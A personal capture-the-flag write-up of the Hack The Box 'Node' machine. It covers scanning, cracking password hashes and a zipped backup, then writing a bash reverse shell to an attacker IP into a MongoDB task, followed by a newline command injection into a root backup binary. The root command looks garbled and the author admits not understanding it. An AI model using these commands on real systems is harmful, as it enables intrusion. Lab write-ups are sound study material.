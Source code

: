# Node

This is my write-up for the machine on Hack The Box called **Node** located at: [https://app.hackthebox.com/machines/Node](https://app.hackthebox.com/machines/Node).

I started off with an nmap scan:

![](<../../.gitbook/assets/image (344) (1).png>)

We see 2 ports open: one for SSH and one for a software known as hadoop-datanode. Port 3000 has a web server running on it:

![](<../../.gitbook/assets/image (347) (1).png>)

I then ran **dirsearch** using the **directory-list-lowercase-2.3-medium.txt** from the dirbuster wordlist directory to see what folders/files I had access to:

`dirsearch -e php,html,js,cgi,bak,txt -u http://10.10.10.58:3000 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 50`

This showed me the following:

![](<../../.gitbook/assets/image (370) (1).png>)

I read up on [this write-up](https://alamot.github.io/node\_writeup/) which pointed me in the direction of using **burpsuite** in order to see requests incoming. I found one that was interesting and followed it:

![](<../../.gitbook/assets/image (341) (1).png>)

These could be passwords or hashes. I tried the username with the passwords, and this did not work for me. Running the hash for **tom** in **hash-identifier** resulted in the following:

![](<../../.gitbook/assets/image (334) (1).png>)

Running the other hashes resulted in **SHA-256** as well. Using the [hashcat examples website](https://hashcat.net/wiki/doku.php?id=example\_hashes), I then had to find out what the Hash-Mode was:

![](<../../.gitbook/assets/image (345).png>)

Running the hashcat command `hashcat -a 0 -m 1400 hashes rockyou.txt` got me the following:

![](<../../.gitbook/assets/image (348) (1).png>)

It seems that I have cracked the passwords for the users **tom** and **mark**. When I login using those credentials, I get the same result:

![](<../../.gitbook/assets/image (350) (1) (1).png>)

Reading the same write-up from before, I missed the directory above from where I was located at:

![](<../../.gitbook/assets/image (368) (1) (1).png>)

This led me to find a new user: **myP14ceAdm1nAcc0uNT**. I then ran **hashcat** on the new hash (with a new wordlist - not needed, but I just did) and got the following:

![](<../../.gitbook/assets/image (369) (1).png>)

Now we see a different output on the main screen:

![](<../../.gitbook/assets/image (366) (1).png>)

Downloading the backup led me to a large ASCII file:

![](<../../.gitbook/assets/image (363) (1).png>)

I noticed a "**=**" at the end, so I thought it could be base64. Decoding the file led me to a zip folder where the files were password protected:

![](<../../.gitbook/assets/image (367) (1) (1).png>)

Following the write-up mentioned above, I ran the command `cat myplace.backup | base64 -d > backup.zip` in order to make my own zip file. This gave me the same result that I had gotten earlier from using [https://www.base64decode.org/](https://www.base64decode.org) to decode the content of the document for me. I then uploaded zipped file on [this website](https://www.onlinehashcrack.com/tools-zip-rar-7z-archive-hash-extractor.php) and got the following output:

![](<../../.gitbook/assets/image (349).png>)

I will go back to the [example hashes site from hashcat](https://hashcat.net/wiki/doku.php?id=example\_hashes) to see what mode this would be:

![](<../../.gitbook/assets/image (335).png>)

I then ran the hashcat command `hashcat -a 0 -m 17230 pkziphash xato-net-10-million-passwords-1000000.txt` to see if I can crack the password:

![](<../../.gitbook/assets/image (339) (1) (1).png>)

I was then able to decode the zip by running `unzip backup.zip`. This created a new directory called **var** in my local directory. In a file called **app.js**, I found the following:

![](<../../.gitbook/assets/image (351) (1) (1).png>)

I was a bit lost about what to do with these credentials, I then read the same write-up again to find out that those credentials would work for **SSH**:

![](<../../.gitbook/assets/image (352) (1) (1).png>)

I also learned from the write-up to search for processes being run by tom:

![](<../../.gitbook/assets/image (343).png>)

I do not have a lot of experience with mongo commands work. Between the write-up I have been mentioning previously and [this write-up](https://dumbsec.ninja/htb-node-box-writeup.html) for this machine, I ran the following commands:

`mongo localhost:27017/scheduler -u mark -p 5AYRft73VtFpc84k`

`db.tasks.insert({cmd: '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.14/1227 0>&1"'})`

I was then able to get a shell as tom:

![](<../../.gitbook/assets/image (342).png>)

I was then able to read the user.txt:

![](<../../.gitbook/assets/image (336) (1).png>)

From the second write-up (previously mentioned), I learned about the following command, which got me directly to root using the backup process:

/usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 $'\n /bin/bash \n' <4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 $'\n /bin/bash \n'

![](<../../.gitbook/assets/image (346) (1).png>)

I will be honest. I have been looking at write-ups for this machine and they all seem to use buffer overflows in order to crack the command to get to the root user. I am a bit unsure how the previous command I used to get to root worked. From my understanding, it seems that the backup process was owned by root, and using the backup key, I was able to run the command. Again, not why why this command exactly.
